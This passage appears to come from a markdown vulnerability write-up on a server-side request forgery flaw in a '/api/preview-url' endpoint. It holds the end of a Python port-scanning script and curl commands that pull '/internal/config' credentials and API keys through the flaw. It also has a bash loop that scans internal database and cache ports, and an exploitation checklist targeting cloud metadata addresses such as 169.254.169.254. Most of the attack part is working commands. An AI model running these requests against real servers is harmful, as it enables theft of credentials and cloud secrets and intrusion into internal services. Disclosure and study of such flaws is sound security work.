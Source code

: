 ```python
        else:
            print(f"[-] Port {port} returned {r.status_code}")
    except:
        print(f"[-] Port {port} timeout/error")
```

---

## 🛡️ Impact Demonstration

### Data Exfiltration Example
```bash
# Step 1: Find internal API
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:3000/internal/config"}'

# Response will contain:
# - Database credentials
# - API keys
# - Internal service endpoints
```

### Service Discovery Example
```bash
# Discover running services
for port in 80 443 3000 3306 5432 6379 8080 9200 27017; do
  echo "Checking port $port..."
  curl -s -X POST http://localhost:3000/api/preview-url \
    -H "Content-Type: application/json" \
    -d "{\"targetUrl\":\"http://localhost:$port\"}" \
    -o /dev/null -w "Port $port: %{http_code}\n"
done
```

---

## 📊 Exploitation Checklist

- [ ] **Internal Endpoints**
  - [ ] `/admin/users` - User data
  - [ ] `/internal/config` - Configuration & API keys
  - [ ] `/health` - Service information

- [ ] **Cloud Metadata**
  - [ ] AWS: `169.254.169.254`
  - [ ] Azure: `169.254.169.254`
  - [ ] GCP: `metadata.google.internal`
  - [ ] DigitalOcean: `169.254.169.254`

- [ ] **Internal Services**
  - [ ] MySQL: `localhost:3306`
  - [ ] PostgreSQL: `localhost:5432`
  - [ ] MongoDB: `localhost:27017`
  - [ ] Redis: `localhost:6379`
  - [ ] Elasticsearch: `localhost:9200`
  - [ ] Memcached: `localhost:11211`
